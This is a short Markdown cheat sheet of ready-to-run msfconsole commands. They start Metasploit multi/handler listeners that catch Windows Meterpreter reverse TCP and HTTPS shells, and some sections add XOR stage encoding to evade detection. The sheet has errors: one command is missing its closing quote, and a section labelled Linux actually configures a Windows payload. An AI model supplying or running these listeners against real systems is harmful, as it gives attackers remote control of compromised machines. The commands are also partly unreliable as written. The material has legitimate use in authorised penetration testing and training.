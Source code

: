 # msfvenom Handler

## Metasploit Handler windows tcp 32bits staged
```
msfconsole -x "use exploits/multi/handler; set lhost <ip>; set lport <port>; set payload windows/meterpreter/reverse_tcp; exploit"
```

## Metasploit Handler windows https 32bits staged
```
msfconsole -x "use exploits/multi/handler; set lhost <ip>; set lport <port|443>; set payload windows/meterpreter/reverse_https; set EXITFUNC thread; exploit
```

## Metasploit Handler windows https 64bits staged
```
msfconsole -x "use exploits/multi/handler; set lhost <ip>; set lport <port|443>; set payload windows/x64/meterpreter/reverse_https; exploit"
```

## Metasploit - Handler windows https 64bits unstaged
```
msfconsole -x "use exploits/multi/handler; set lhost <ip>; set lport <port|443>; set payload windows/x64/meterpreter_reverse_https; exploit"
```

## Metasploit - Handler windows https 64bits stagged - encoded xor
others encoder : x64/zutto_dekiru

```
msfconsole -x "use exploits/multi/handler; set lhost <ip>; set lport <port|443>; set payload windows/x64/meterpreter/reverse_https; set EXITFUNC thread; set EnableStageEncoding true; set StageEncoder <encoder|x64/xor_dynamic>; exploit"
```

## Metasploit - Handler linux tcp 64bits stagged - encoded xor
```
msfconsole -x "use exploits/multi/handler; set lhost <ip|tun0>; set lport <lport|443>; set payload windows/x64/meterpreter/reverse_https; set EXITFUNC thread; set EnableStageEncoding true; set StageEncoder x64/xor_dynamic; exploit"
```

